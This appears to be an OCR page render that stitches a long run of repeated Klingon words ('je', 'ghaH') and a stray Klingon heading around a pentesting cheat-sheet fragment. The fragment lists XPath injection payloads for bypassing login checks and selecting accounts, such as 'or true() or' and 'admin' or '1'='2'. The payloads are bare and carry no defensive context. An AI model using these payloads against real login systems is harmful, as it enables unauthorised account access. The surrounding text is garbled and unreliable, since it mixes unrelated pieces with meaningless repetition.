 **"je"** **"ghaH"** **"je"** **"ghaH"** **"je"** **"ghaH"** **"je"** **"ghaH"** **"je"** **"ghaH"** **"je"** **"ghaH"** **"je"** **"ghaH"** **"je"** **"ghaH"** **"je"** **"ghaH"** **"je"** **"ghaH"** **"je"** **"ghaH"** **"je"** **"ghaH"** **"je"** **"ghaH"** **"je"** **"ghaH"** **"je"** **"ghaH"** **"je"** **"ghaH"** **"je"** **"ghaH"** **"je"** **"ghaH"** **"je"** **"ghaH"** **"je"** **"ghaH"** **"je"** **"ghaH"** **"je"** **"ghaH"** **"je"** **"ghaH"** **"je"** **"ghaH"** **"je"** **"ghaH"** **"je"** **"ghaH"** **"je"** **"ghaH"
```
Bypass with first match
(This requests are also valid without spaces)
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
string(//user[name/text()='' or true() or '' and password/text()='']/account/text())

Select account
'or string-length(name(.))<10 or' #Select account with length(name)<10
'or contains(name,'adm') or' #Select first account having "adm" in the name
'or contains(.,'adm') or' #Select first account having "adm" in the current value
'or position()=2 or' #Select 2º account
string(//user[name/text()=''or position()=2 or'' and password/text()='']/account/text())

Select account (name known)
admin' or '
admin' or '1'='2
string(//user[name/text()='admin' or '1'='2' and password/text()='']/account/text())
```
## tlhIngan Hol tlhutlh
